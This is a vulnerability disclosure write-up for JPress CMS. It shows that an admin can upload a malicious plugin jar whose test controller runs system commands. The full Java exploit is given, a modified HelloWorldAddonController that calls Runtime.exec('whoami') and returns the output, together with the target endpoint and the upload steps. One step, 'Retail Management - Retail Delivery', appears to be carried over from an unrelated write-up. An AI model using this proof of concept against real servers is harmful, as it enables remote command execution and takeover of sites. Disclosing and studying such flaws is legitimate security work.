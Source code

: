 ## JPress CMS Remote Command Execution Vulnerability

JPress is a WordPress like product developed in Java that supports automatic switching between multiple sites and languages.

JPress is an open-source and free site building artifact developed in Java, inspired by WordPress. At present, more than 10w+websites have been built using JPress, including many government agencies, 200+listed companies, Chinese Academy of Sciences, Red Cross Society, etc.

There is a system plug-in interface that can be uploaded in the background of JPress. Specifically, it is uploaded by jar package or zip. Java code contains the test class of the uploaded plug-in. We can construct a malicious jar package and upload it to the system server, and access the interface of the test class to trigger parsing, thus causing remote command execution.

This vulnerability can be used to execute server system commands and obtain system information.

Vulnerability address: http://ip:8080/admin/addon/test

Code download address: https://gitee.com/JPressProjects/jpress.git

Vulnerability location: upload the plug-in function node after logging into the system.

### Exploit

Click Retail Management - Retail Delivery to obtain the interface information through packet capture.

<img src="./pic/1.jpg" alt="1" style="zoom:200%;" />

<img src="./pic/2.jpg" alt="1" style="zoom:200%;" /><img src="./pic/3.jpg" alt="1" style="zoom:200%;" />

The code of the original test interface is as follows:

```
package io.jpress.addon.helloworld;

import com.jfinal.core.ActionKey;
import com.jfinal.kit.Ret;
import io.jboot.web.controller.JbootController;
import io.jboot.web.controller.annotation.RequestMapping;
import io.jpress.JPressConsts;
import io.jpress.core.menu.annotation.AdminMenu;


@RequestMapping(value = "/helloworld",viewPath = "/")
public class HelloWorldAddonController extends JbootController {

    public void index() {
        setAttr("version","1.0.2");
        render("helloworld/index.html");
    }

    public void json() {
        renderJson(Ret.ok().set("message", "json ok...."));
    }

    @ActionKey("/admin/addon/test")
    @AdminMenu(groupId = JPressConsts.SYSTEM_MENU_ADDON, text = "插件测试")
    public void adminmenutest() {
        renderText("addon test abc");
    }
}

```

The content of the modified test interface is as follows. Since we need the system to execute this code, we need to modify the code logic based on the previous interface information. Package the HelloWorldAddonController class into a jar package and upload it.

```
package io.jpress.addon.helloworld;

import com.jfinal.core.ActionKey;
import com.jfinal.kit.Ret;
import io.jboot.web.controller.JbootController;
import io.jboot.web.controller.annotation.RequestMapping;
import io.jpress.JPressConsts;
import io.jpress.core.menu.annotation.AdminMenu;

import java.io.BufferedInputStream;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;


@RequestMapping(value = "/helloworld",viewPath = "/")
public class HelloWorldAddonController extends JbootController {

    public void index() {
        setAttr("version","1.0.2");
        render("helloworld/index.html");
    }

    public void json() {
        renderJson(Ret.ok().set("message", "json ok...."));
    }

    @ActionKey("/admin/addon/test")
    @AdminMenu(groupId = JPressConsts.SYSTEM_MENU_ADDON, text = "插件测试")
    public String adminmenutest() {

        Runtime runtime = Runtime.getRuntime();
        StringBuilder sb = new StringBuilder();
        try {
            Process process = runtime.exec("whoami");
            BufferedInputStream inputStream = new BufferedInputStream(process.getInputStream());
            BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));

            String tmpStr;
            while ((tmpStr = reader.readLine()) != null) {
                sb.append(tmpStr);
            }

            if (process.waitFor() != 0) {
                if (process.exitValue() == 1)
                    return "Command exec failed!!";
            }

            reader.close();
            inputStream.close();
        }catch (Exception e) {
            return e.toString();
        }
        return sb.toString();
    }
}

```

<img src="/Users/liuhao/markdown-master/jpress远程命令执行/pic/4.jpg" alt="1" style="zoom:200%;" />

After calling the test interface, it can be found that the 'whoami' command in the jar package we designed above is successfully executed and returned to the current user of my local machine.

<img src="/Users/liuhao/markdown-master/jpress远程命令执行/pic/5.jpg" alt="1" style="zoom:200%;" />

Other commands can be executed by modifying the form of execution command.